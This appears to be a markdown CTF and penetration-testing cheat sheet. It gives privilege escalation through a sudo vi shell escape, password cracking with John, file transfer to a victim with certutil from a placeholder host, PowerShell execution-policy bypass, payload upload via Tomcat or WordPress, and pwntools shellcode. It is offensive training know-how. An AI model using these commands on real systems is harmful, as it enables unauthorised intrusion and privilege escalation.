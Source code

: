   * To get Root from VI
  ```
  www-data@enemy:$ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
  ```
  or
  ```
  www-data@enemy:$ sudo /usr/bin/vi /var/www/html/anyrandomFile
  Type Escape and enter :!/bin/bash
  ```
  * Use [Pspy](https://github.com/DominicBreuker/pspy) for Getting information on cron, proceses etc

# Tools
* Reconnoitre [Links](https://github.com/codingo/Reconnoitre) -- A security tool for multithreaded information gathering and service enumeration whilst building directory structures to store results, along with writing out recommendations for further testing.
   * `reconnoitre -t 10.10.10.37 -o `pwd` --services`
* Total Commander - multi purpose terminal for Hacking. Link : www.ghisler.com
* CTF Exploitation Framework : Github.com/Gallopsled/pwntools `pip install pwntools`
* When using GDB, we can create "~/.gdbinit" file and add this line "set disassembly-flavor intel" to make intel synatx.
* Dirbuster for enumeration web server Attacks.
* [Gobuster](https://github.com/OJ/gobuster) for advanced enumeration
* [Nmap Automator](https://github.com/21y4d/nmapAutomator)
* 7z Password Cracking: Use tool `7z2john`
* SSH Password Cracking: `/usr/share/john/ssh2john.py id_rsa > output.hash`

***

### Recover Files from Deleted File Systems
* To Extract Flag from the file system - `strings /dev/sdb`
* Flag Recovery with regex `grep -a '[a-z0-9]\{32\}' /dev/sdb`
* `ssh username@remote_address "sudo dcfldd -if=/dev/sdb | gzip -1 ." | dcfldd of=extract.dd.gz` -- Used to get from Remote Hosts
* `gunzip -d extract.dd.gz`
* `binwalk -Me extract.dd`

### Transfer Files from Host to Target Machine
* Use `python -m SimpleHTTPServer` in the host folder.
* Use Apache and put files in `/var/www/html/` folder.
* If Tomcat is Opened, upload the file/payload using the Admin panel.
* If wordpress is running, upload the file as plugin.
* In Windows Victim, use `certutil -urlcache -f http://<HOST_IP>/<FILE_NAME> <OUTPUT_FILE_NAME>`

### Powershell
* To bypass execution policy `powershell.exe -exec bypass`

### BufferOverflow
* To generate shellcode quickly, we can use..
  * `python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh))`
  * `(python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh()))" ;cat) | ./vuln`
 